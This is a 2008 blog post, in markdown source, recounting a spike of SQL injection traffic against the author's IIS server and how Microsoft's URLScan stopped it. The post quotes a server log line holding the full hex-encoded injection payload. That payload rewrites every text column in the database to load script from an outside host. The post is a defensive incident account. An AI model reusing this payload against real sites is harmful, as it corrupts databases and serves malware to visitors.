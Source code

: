 ```yaml
---
id: 301
title: 'Accessorize your Denial of Service or SQL Injection Attack'
date: '2008-08-11T08:43:35-04:00'
author: 'Rob Bazinet'
layout: post
guid: 'http://localhost/~rbazinet/?p=301'
permalink: /iis/accessorize-your-denial-of-service-or-sql-injection-attack/
categories:
    - IIS
---
```


 I was reading some posts on Twitter the past couple days and noticed some Tweets from [Phil Haack](http://twitter.com/haacked) and [Scott Hanselman](http://twitter.com/shanselman) regarding an attack on their web[![Hacked](http://accidentaltechnologist.com/files/media/image/WindowsLiveWriter/AccessorizeyourDenialofServiceorSQLInjec_9683/Hacked_thumb.jpg)](http://accidentaltechnologist.com/files/media/image/WindowsLiveWriter/AccessorizeyourDenialofServiceorSQLInjec_9683/Hacked_2.jpg) servers for their blogs which caused a large spike in traffic. They determined it was some type of [Distributed Denial of Service (DDOS) attack](http://en.wikipedia.org/wiki/Denial_of_service_attack). I decided to check out my own server which I host this site and to my surprise, the same thing had been happening to me all day with an increase in traffic 10x.

I reviewed my server logs and saw some really large QueryStrings being sent which looked like this:

> <font face="Courier New" size="1">2008-08-08 05:51:53 W3SVC2557 SV2419 74.86.230.234 GET /asp-net/feed/ ';DECLARE%20@S%20CHAR(4000);SET%20@S=CAST(0x4445434C415245204054207661726368617228323535292C40432076617263686172283430303029204445434C415245205461626C655F43757273   
> 6F7220435552534F5220464F522073656C65637420612E6E616D652C622E6E616D652066726F6D207379736F626A6563747320612C737973636F6C756   
> D6E73206220776865726520612E69643D622E696420616E6420612E78747970653D27752720616E642028622E78747970653D3939206F7220622E7874   
> 7970653D3335206F7220622E78747970653D323331206F7220622E78747970653D31363729204F50454E205461626C655F437572736F7220464554434   
> 8204E4558542046524F4D20205461626C655F437572736F7220494E544F2040542C4043205748494C4528404046455443485F5354415455533D302920   
> 424547494E20657865632827757064617465205B272B40542B275D20736574205B272B40432B275D3D5B272B40432B275D2B2727223E3C2F7469746C6   
> 53E3C736372697074207372633D22687474703A2F2F73646F2E313030306D672E636E2F63737273732F772E6A73223E3C2F7363726970743E3C212D2D   
> 272720776865726520272B40432B27206E6F74206C696B6520272725223E3C2F7469746C653E3C736372697074207372633D22687474703A2F2F73646   
> F2E313030306D672E636E2F63737273732F772E6A73223E3C2F7363726970743E3C212D2D272727294645544348204E4558542046524F4D2020546162   
> 6C655F437572736F7220494E544F2040542C404320454E4420434C4F5345205461626C655F437572736F72204445414C4C4F43415445205461626C655   
> F437572736F72%20AS%20CHAR(4000));EXEC(@S); 80 - 69.180.0.90 HTTP/1.1 Mozilla/4.0+(compatible;+MSIE+6.0;+Windows+NT+5.1;+SV1;   
> +Zango+10.3.74.0) - - accidentaltechnologist.com 200 0 0 27171 1514 3328</font>

It appears this is more of a SQL Injection attack and not just simply a DDOS. You can see the EXEC(@S) where they are trying to execute some nasty SQL on my server. [Rick Strahl has also had some similar problems](http://www.west-wind.com/weblog/posts/447503.aspx) and he addresses the issue in IIS 7.0.

Not being what to do, I went to Twitter, pinged Scott to see what he did to stop the attack and he suggested [URLScan from Microsoft](http://technet.microsoft.com/en-us/security/cc242650.aspx). Of course, this is tool I used to use back in the day of supporting clients web servers to help ward off unfriendly visitors. I had forgotten all about this tool until Scott mentioned it.

I downloaded URLScan from Microsoft and promptly installed it on my web server and the DDOS attack stopped almost instantly. The current version of URLScan is 2.5 which says it only works on IIS 6.0, but a beta version of [URLScan 3.0](http://www.microsoft.com/downloads/details.aspx?familyid=EE41818F-3363-4E24-9940-321603531989&displaylang=en) is available for IIS 5.1, 6.0, and 7.0.

Thank you [Scott](http://www.hanselman.com/blog/) for the quick reply and suggestion to fix my problem.

<div class="wlWriterSmartContent" id="scid:0767317B-992E-4b12-91E0-4F059A8CECA8:c061bd53-e034-4a9a-bf2b-1578f591c863" style="padding-right: 0px; display: inline; padding-left: 0px; float: none; padding-bottom: 0px; margin: 0px; padding-top: 0px">Technorati Tags: [Hackers](http://technorati.com/tags/Hackers),[DDOS](http://technorati.com/tags/DDOS),[URLScan](http://technorati.com/tags/URLScan),[IIS](http://technorati.com/tags/IIS),[SQL Injection](http://technorati.com/tags/SQL%20Injection)</div>